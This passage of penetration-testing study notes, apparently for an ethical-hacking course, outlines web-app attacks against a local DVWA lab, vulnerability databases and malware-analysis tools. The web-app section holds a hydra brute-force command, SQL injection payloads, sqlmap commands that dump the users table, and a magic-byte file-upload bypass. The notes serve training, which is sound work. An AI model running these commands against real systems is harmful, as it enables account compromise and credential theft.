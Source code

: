 	4. >run
	5. Content Type Check
4. Brute Force WebApp passwords with burp and hydra
	1. Proxy -> Intruder (wordlist) -> Length
	2. hydra -l admin -P /usr/share/wordlists/john.lst 'http-get- form://127.0.0.1:42001/vulnerabilities/brute/:username=^USER^&password=PASS^&Login=Login:H=Cookie\:PHPSESSID=7vs4mhc1q4dnp3f6cgikl01v9q; security=low:F=Username and/orpassword incorrect'
	3. BurpSuite -> Pitchfork (wordlist + recursive grep) (Redirections = always)
5. Chaining Multiple Vulnerabilities
	1. vim -> GIF89a; (magic bytes)
	2. exploit.php.jpeg
6. SQL injection vulnerabilities 1
	1. ' OR 1=1 #
	2. sqlmap ‐r req.txt ‐‐dbs
	3. sqlmap ‐r req.txt ‐D dvwa ‐‐tables
	4. sqlmap ‐r req.txt ‐D dvwa ‐T users ‐‐columns
	5. sqlmap ‐r req.txt ‐D dvwa ‐T users ‐‐dump‐all
7. SQL injection vulnerabilities 2
	1. 1 UNION SELECT user, password FROM users#
	2. 1’ UNION SELECT user, password FROM users#
8. SQLmap
9. Hacking Wordpress Websites with WPScan
10. SQL injection on MSSQL db
11. SQL injection on MSSQL with SQLmap
	1. Other tools:
		1. mole
		2. blisqy
		3. blind-sql-bitshifting
		4. nosqlmap
12. Detect SQL injection vulnerabilities using DSSS
13. Detect SQL injection vulnerabilities using OWASP ZAP
	1. Other tools:
		1. acunetix web vulnerability scanner
		2. snort
		3. Burp Suite
		4. w3af


**Vulnerability Assessment**

1. Vulnerability research - CWE
	1. https://cwe.mitre.org
2. Vulnerability research - CVE
	1. https://cve.mitre.org/
3. Vulnerability research - NVD
	1. https://nvd.nist.gov/
4. OpenVAS
5. Nessus
6. Nikto CGI Scanner

**Malware analysis**

1. Introduction
	1. static analysis
	2. dynamic analysis
	3. code analysis
	4. behavioural analysis
2. Hybrid Analysis
	1. Other tools:
		1. Valkyrie
		2. Cuckoo sandbox
		3. Jotti
		4. IOBit Cloud
3. Strings in BinText
	1. Other tools:
		1. FLOSS